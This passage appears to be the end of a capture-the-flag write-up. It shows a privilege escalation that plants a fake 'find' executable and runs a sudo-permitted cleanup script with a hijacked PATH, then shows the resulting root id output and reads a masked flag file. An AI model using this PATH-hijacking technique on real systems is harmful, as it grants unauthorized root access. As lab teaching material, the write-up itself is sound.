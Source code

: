 ```
cd ~
echo bash > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```
Now, we are root:

```
id
```

Results:
```
uid=0(root) gid=0(root) groups=0(root)
```

And the flag:
```
cat root.txt
```
Results: *************************

